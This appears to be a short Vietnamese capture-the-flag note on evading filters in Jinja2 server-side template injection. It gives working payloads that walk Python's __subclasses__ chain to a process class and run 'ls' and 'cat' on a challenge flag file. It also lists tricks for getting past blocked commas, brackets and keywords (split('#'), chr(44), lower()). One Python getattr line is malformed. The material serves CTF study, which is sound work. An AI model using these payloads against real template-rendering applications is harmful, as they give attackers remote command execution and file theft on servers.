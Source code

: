SSTI bypass ',' filter 1 cái gì đó như base subclass.... hay filter '' "" ....


Filter [], base 
Jinja2
{{ ['1objectgidooday'].\_\_class__["\_\_bASe__".lower()].\_\_subclasses__()[262]\(["ls","/home/NinjaWorld/chall"],stdout=-1).communicate() }}

Python bth
getattr("['1objectgidooday'].\_\_class__","["\_\_bASe__".lower()].\_\_subclasses__()[262]\(["ls","/home/NinjaWorld/chall"],stdout=-1).communicate()")

Gọi 1 object bất kì như là [0] hay ['aaaa'], chuyển toàn bộ bằng hàm lower rồi ghép chữ


Filter dấu , 

{{ ['1objectgidooday'].\_\_class__["\_\_bASe__".lower()].\_\_subclasses__()[262]\(\*(["cat#/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')]+[-1]+[None]+[None]+[-1])).communicate() }}

nhiều cách chr(44), \x2c, []+[], "a#b".split("#") > [a,b]

\*(["cat#/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')]+[-1]+[None]+[None]+[-1])) 
tương đương
(["cat","/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')"],stdout=-1)

